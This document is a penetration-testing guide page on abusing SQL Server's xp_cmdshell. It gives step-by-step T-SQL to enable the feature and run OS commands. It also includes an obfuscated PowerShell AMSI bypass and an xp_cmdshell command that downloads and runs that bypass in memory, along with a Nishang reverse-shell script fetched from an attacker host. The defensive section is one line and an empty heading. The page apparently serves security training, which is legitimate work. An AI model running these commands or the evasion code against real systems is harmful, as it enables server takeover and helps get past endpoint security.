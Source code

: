```yaml
---
description: xp_cmdshell could be used to execute commands on the SQL Server.
---
```


# Executing Commands

## Attacking

### How it works

[xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) is a SQL Server functionality that is disabled by default. However it can be enabled using sp\_configure. It spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. The Windows process spawned by **** xp\_cmdshell has the same security rights as the SQL Server service account.

### Executing the attack

**In this example and screenshots mssql-cli is used, but this also works with Heidisql in the query tab.**

1. Enable xp\_cmdshell with the following commands:

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69) (1) (1) (1) (1).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60) (1) (1) (1) (1).png>)

3\. Gain a reverse shell and execute commands by executing the following query after doing the following:

* Create a webserver directory to host some files.
* Download [Invoke-PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
* Save a amsi bypass in amsi.txt, for example.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

This query will download and load into memory the `amsi.txt` file and then the `Invoke-PowerShellTcp` script creating a reverse shell. These should be hosted on your webserver on the attacking machine. For more information about this technique check out:

{% content-ref url="../../misc/reverse-shell-trick.md" %}
[reverse-shell-trick.md](../../misc/reverse-shell-trick.md)
{% endcontent-ref %}

![](<../../../.gitbook/assets/image (45) (1) (1) (1) (1) (1).png>)

## Defending

### Recommendations

* Sysadmin users can enable xp\_cmdshell, so limit these users.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15" %}
